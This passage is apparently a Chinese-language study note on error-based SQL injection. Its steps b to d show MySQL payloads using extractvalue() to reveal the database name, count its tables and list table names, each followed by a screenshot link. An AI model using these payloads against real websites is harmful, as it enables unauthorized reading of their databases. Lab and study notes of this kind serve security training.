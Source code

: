 ##### b.查看数据库名字

```
1' and extractvalue(1,concat(0x7e,database(),0x7e)) --+
```

<img src="../../images/8-20-morning/2. 查看数据库名.png" alt="2. 查看数据库名" style="zoom:67%;" />

##### c.查看数据库的表

```
1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e)) --+
```

<img src="../../images/8-20-morning/3. 查看表数.png" alt="3. 查看表数" style="zoom:67%;" />

##### d.查看有哪些表

```
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+
```

<img src="../../images/8-20-morning/4. 查看所有表名.png" alt="4. 查看所有表名" style="zoom:67%;" />
